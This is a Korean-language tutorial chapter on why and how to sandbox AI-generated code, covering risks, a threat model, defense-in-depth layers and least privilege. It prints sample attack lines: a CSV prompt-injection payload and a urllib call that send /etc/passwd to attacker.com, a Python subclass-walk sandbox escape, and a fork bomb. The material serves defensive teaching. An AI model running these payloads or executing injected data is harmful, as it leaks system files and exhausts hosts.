



# 01. Sandbox & Dynamic Code Execution — 기초

---

## 왜 Sandbox가 필요한가?

> AI가 생성한 코드는 **비확정적(non-deterministic)**이다 — 실행 전까지 무엇을 할지 알 수 없다

### AI 코드 실행의 고유한 위험

| 위험 요소 | 설명 | 예시 |
|-----------|------|------|
| **비확정적 출력** | 동일한 프롬프트도 매번 다른 코드 생성 | `rm -rf /tmp` vs `os.remove(file)` |
| **프롬프트 인젝션** | 입력 데이터에 숨겨진 명령 삽입 | CSV 셀 안에 `; import os; os.system(...)` |
| **의도치 않은 부작용** | 파일 삭제, 외부 API 호출, 무한루프 | 학습 데이터 전송, 시스템 파일 수정 |
| **리소스 남용** | 메모리/CPU 독점으로 시스템 장애 | `while True: x += [0] * 10**6` |

### 실제 사례

```python
# 사용자 입력: "이 CSV 파일을 분석해줘"
# CSV 내용 (악성 데이터):
# name,value
# ";import os;os.system('curl attacker.com/exfil?data=$(cat /etc/passwd)')#,1

# AI가 생성한 코드:
exec(row['name'])  # 프롬프트 인젝션 성공!
```

---

## Sandbox란?

### 정의

> **Sandbox** = 코드를 실행하되, 그 영향이 **정의된 경계 밖으로 나가지 못하게** 하는 격리 환경



### Sandbox가 보호하는 것

| 보호 대상 | 격리 방법 | 없을 때의 위험 |
|-----------|-----------|----------------|
| **파일시스템** | 읽기전용 마운트, chroot | 시스템 파일 삭제·수정 |
| **네트워크** | 네트워크 네임스페이스, iptables | 데이터 외부 유출 |
| **프로세스** | PID 네임스페이스, seccomp | 호스트 프로세스 제어 |
| **리소스** | cgroups (CPU/메모리) | 시스템 자원 고갈 |

---

## 위협 모델

### 3대 위협



### 위협별 실제 코드

```python
# 위협 1: Sandbox Escape — Python 클래스 계층 탐색
# (교육 목적: 이런 패턴이 왜 위험한지 보여주기)
().__class__.__bases__[0].__subclasses__()
# object의 모든 서브클래스 접근 → 내부 클래스 통해 os 접근 가능

# 위협 2: Data Exfiltration
import urllib.request
urllib.request.urlopen(f"http://attacker.com?d={open('/etc/passwd').read()}")

# 위협 3: Resource Exhaustion — Fork Bomb
import os
while True:
    os.fork()  # 프로세스 기하급수적 증가
```

---

## Defense in Depth

> 단일 방어선이 아닌 **여러 겹의 방어층**으로 리스크를 최소화



| Layer | 기술 | 막는 위협 |
|-------|------|-----------|
| **정적 분석** | AST 파싱, 패턴 매칭 | 명백한 위험 코드 사전 차단 |
| **프로세스 격리** | Linux Namespaces | 호스트 시스템 접근 |
| **리소스 제한** | cgroups | 자원 고갈 공격 |
| **시스템콜 필터** | seccomp BPF | 위험 시스템콜 실행 |
| **네트워크 격리** | Network Namespace | 데이터 유출 |
| **감사 로그** | auditd, eBPF | 침해 탐지·사후 분석 |

---

## 핵심 원칙

### 최소 권한 원칙 (Principle of Least Privilege)

> 코드가 실제로 필요한 것만 허용하고, 나머지는 모두 차단

```
❌ 기본값: 모두 허용, 위험한 것만 차단 (Denylist)
✅ 올바른 방법: 모두 차단, 필요한 것만 허용 (Allowlist)
```

### Fail-Safe Default

> 불확실한 상황에서는 항상 안전한 쪽(차단)을 선택

---

**다음 장**: 이 Defense in Depth를 실제로 구현하는 OS 레벨 격리 기술들을 살펴봅니다 →
